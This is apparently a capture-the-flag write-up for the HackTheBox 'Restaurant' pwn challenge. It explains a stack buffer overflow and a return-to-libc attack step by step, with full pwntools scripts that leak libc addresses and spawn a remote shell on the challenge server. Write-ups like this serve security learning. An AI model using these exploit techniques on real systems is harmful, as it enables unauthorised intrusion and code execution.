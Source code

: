 
# Restaurant - Writeup

**Platform:** *HackTheBox*

**Category:** *pwn*

**Difficulty:** *easy*

**Link:** https://app.hackthebox.com/challenges/Restaurant


## Solution

Basic binary file information first:

<p align="center">
<img src="../resources/HackTheBox/Restaurant0_0.png" alt="Output of file command"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Restaurant0_1.png" alt="Output of checksec command"/>
</p>

There are two functions in the code: `fill` and `drink`. But only the `fill` looks interesting:

<p align="center">
<img src="../resources/HackTheBox/Restaurant1_0.png" alt="Disassembly of fill function"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Restaurant1_1.png" alt="Pseudo-C fill function"/>
</p>

There is no function with flag, so I decided to try to get the shell on the remote host using **return-to-libc** technique.
First, I found the address where return address is stored:

<p align="center">
<img src="../resources/HackTheBox/Restaurant2_0.png" alt="Python code for stack based buffer overflow"/>
</p>
<p align="center">
<img src="../resources/HackTheBox/Restaurant2_1.png" alt="Result of buffer overflow"/>
</p>

The return address starts at byte 40.
The algorithm to reproduce the technique is:
1. Get `puts@plt` and `puts@got` addresses
2. Find the address of `pop rdi; ret` because I needed it to give an argument to the next function
3. Call the `puts@plt` function with `puts@got` address as an argument
4. Return to any program function (I chose main) to avoid program crashing.
5. Get the address of `puts` function in `libc.so.6`

Here I found a "gadget" with `ROPgadgets --binary ./restaurant`:

<p align="center">
<img src="../resources/HackTheBox/Restaurant3.png" alt="pop rdi; ret gadget address"/>
</p>

And I wrote the following script:
```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)
p.interactive()
```

After using this script stack looks like this:

```
|---------------------|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|AAAAAAAAAAAAAAAAAAAAA|
|---------------------|
|pop rdi; ret  address|
|---------------------|
|  puts@got  address  |
|---------------------|
|  puts@plt  address  |
|---------------------|
|    main  address    |
|---------------------|
```

Initially, the execution flow goes to the `pop rdi` address, which pops the `puts@got` address from the stack and return to the `puts@plt` address with the `puts@got` as a function argument. After the `puts@plt` is called it resolves the address of the `puts` in the `libc.so.6` and saves it in the `.got` section, from where program retrieves it and prints in console. Finally, the program flow returns to main function:

<p align="center">
<img src="../resources/HackTheBox/Restaurant4.png" alt="Result of the script"/>
</p>

Slight changes in the previous script to show `puts` address in hex format:

```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

print(hex(puts))
p.interactive()
```
<p align="center">
<img src="../resources/HackTheBox/Restaurant5.png" alt="Result of the script"/>
</p>

The next step is to find the base of `libc.so.6`, `system` function in the library and `/bin/sh` string in the library:

```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = process('./restaurant')

plt = elf.symbols['puts']
got = elf.got['puts']
main = elf.symbols['main']

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(main)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

libc = ELF('./libc.so.6')
libc_puts = libc.symbols['puts']
base = puts - libc_puts
libc_system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh'))

print(hex(libc_system))
print(hex(binsh))
p.interactive()
```
<p align="center">
<img src="../resources/HackTheBox/Restaurant6.png" alt="Result of the script"/>
</p>

Now everything is ready to fully exploit the program and get the shell:
```python
from pwn import *

elf = context.binary = ELF('./restaurant')
context.log_level = 'debug'

p = remote('94.237.53.203', 42292)

plt = elf.symbols['puts']
got = elf.got['puts']
fill = elf.symbols['fill'] # I used the fill function as the return target to keep the script shorter and easier to follow

p.sendlineafter(b'>', b'1')

payload = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(fill)
p.sendlineafter(b'>', payload)

result = p.recvline_startswith(b'Enjoy your ').strip()
puts = result[-6:]
puts = puts.ljust(8, b'\x00')
puts = u64(puts)

libc = ELF('./libc.so.6')
libc_puts = libc.symbols['puts']
base = puts - libc_puts
libc_system = base + libc.symbols['system']
binsh = base + next(libc.search(b'/bin/sh\x00'))

get_shell = b'A' * 40 + p64(0x4010a3) + p64(got) + p64(plt) + p64(0x4010a3) + p64(binsh) + p64(libc_system)
p.sendlineafter(b'>', get_shell)

p.interactive()
```
<p align="center">
<img src="../resources/HackTheBox/Restaurant7.png" alt="The flag"/>
</p>
